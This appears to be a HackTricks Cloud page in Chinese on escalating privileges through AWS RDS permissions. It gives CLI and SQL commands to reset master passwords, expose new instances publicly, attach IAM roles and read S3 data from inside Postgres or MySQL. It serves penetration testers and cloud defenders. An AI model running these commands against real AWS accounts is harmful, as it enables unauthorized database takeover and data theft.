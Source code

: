 # AWS - RDS Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## RDS - 关系数据库服务

有关 RDS 的更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有该权限的攻击者可以 **修改主用户的密码**，以及数据库中的登录信息：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**联系数据库**（它们通常仅在内部网络中可访问）。
{% endhint %}

**潜在影响：** 在数据库中查找敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，具有此权限的用户可以连接到数据库实例。

### 滥用 RDS 角色 IAM 权限

#### Postgresql (Aurora)

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**时发现名为**`rdsadmin`**的数据库，您就知道您在**AWS postgresql 数据库**中。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他 AWS 服务。您可以通过查看已安装的扩展来检查这一点：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 的东西，你可以假设这个数据库对 S3 **有某种访问权限**（还有其他扩展，如 **`aws_ml`** 和 **`aws_lambda`**）。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在 **`AssociatedRoles`** 字段中查看 **集群是否附加了任何 IAM 角色**。如果有，你可以假设这个数据库是 **为访问其他 AWS 服务而准备的**。根据 **角色的名称**（或者如果你能获取 **角色的权限**），你可以 **猜测** 数据库具有的额外访问权限。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果你拥有**原始 AWS 凭证**，你也可以使用它们访问 S3 数据，方法是：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **不需要更改任何参数组变量** 就能访问 S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在 mysql 中，如果你运行查询 **`SELECT User, Host FROM mysql.user;`** 并且有一个用户叫 **`rdsadmin`**，你可以假设你在一个 **AWS RDS mysql 数据库** 中。
{% endhint %}

在 mysql 中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 有值，你可以假设数据库已准备好访问 S3 数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何 **关联角色**，这通常意味着可以访问 AWS 服务。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的 RDS 实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。\
请注意，一些数据库需要额外的配置，例如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者可以在已经存在并附加了**IAM角色**的集群中创建一个**新实例**。他将无法更改主用户密码，但他可能能够将新数据库实例暴露到互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

拥有权限 `rds:CreateDBInstance` 和 `iam:PassRole` 的攻击者可以 **创建一个附加指定角色的新 RDS 实例**。攻击者随后可能 **访问敏感数据** 或修改实例中的数据。

{% hint style="warning" %}
附加角色/实例配置文件的一些要求（来自 [**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

* 配置文件必须在您的账户中存在。
* 配置文件必须有一个 IAM 角色，Amazon EC2 有权限假设。
* 实例配置文件名称和相关的 IAM 角色名称必须以前缀 `AWSRDSCustom` 开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBInstance` 和 `iam:PassRole` 的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
DB实例必须位于集群之外
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或对数据进行未经授权的修改。

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家(ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家(GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**Telegram群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
